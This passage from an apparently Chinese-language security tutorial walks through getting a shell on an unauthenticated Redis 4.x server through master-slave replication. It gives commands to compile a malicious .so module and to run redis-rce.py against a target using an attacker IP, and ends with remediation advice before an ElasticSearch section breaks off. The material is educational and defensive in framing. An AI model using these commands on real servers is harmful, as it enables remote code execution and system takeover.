 连接成功。

0x04 主从复制 RCE

在 Reids 4.x 之后，Redis 新增了模块功能，通过外部拓展，可以实现在 Redis 中实现一个新的 Redis 命令，通过写 C 语言编译并加载恶意的. so 文件，达到代码执行的目的。

通过脚本实现一键自动化 getshell：

1、生成恶意. so 文件，下载 RedisModules-ExecuteCommand 使用 make 编译即可生成。

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuP4cDIbVWsYAMWSmQib68QmUdD0kPyT4vMLiaNB4O9Js6FicTLBibz7h2icQ/640?wx_fmt=jpeg)

2、攻击端执行：python redis-rce.py -r 目标 ip-p 目标端口 -L 本地 ip -f 恶意. so

```
git clone https://github.com/Ridter/redis-rce.git
cd redis-rce/
cp .. /module.so ./
pip install -r requirements.txt
python redis-rce.py -r 192.168.28.152 -p 6379 -L 192.168.28.137 -f module.so
```

\-r 参数是指目标 redis IP 地址

\-L 参数是指本机的 ip 地址

执行命令后，本机 21000 端口生成一个 redis 服务，然后目标 redis 指定本机为主服务器，同步执行 so 文件。

执行成功后可以选择生成一个交互的 shell，或者重新反弹一个 shell。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuULfPlGIkgG7mCS9nnJx3LHBvHuULSJZp1SQOKmG0FUhhCZ1k2mFUlQ/640?wx_fmt=jpeg)

### 修复方法

（1）对 redis 访问启动密码认证。

（2）配置 bind 选项限定可以连接 Reids 服务器的 IP 并修改默认端口 6379。

ElasticSearch 未授权访问漏洞
---------------------

### 漏洞简介

Elasticsearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful web 接口。Elasticsearch 是用 Java 语言开发的，并作为 Apache 许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

Elasticsearch 服务普遍存在一个未授权访问的问题，攻击者通常可以请求一个开放 9200 或 9300 端口的服务器进行恶意攻击。

更多 ElasticSearch 的介绍请移步：https://www.bootwiki.com/elasticsearch/elasticsearch-tutorial.html

### 漏洞复现

#### 环境搭建

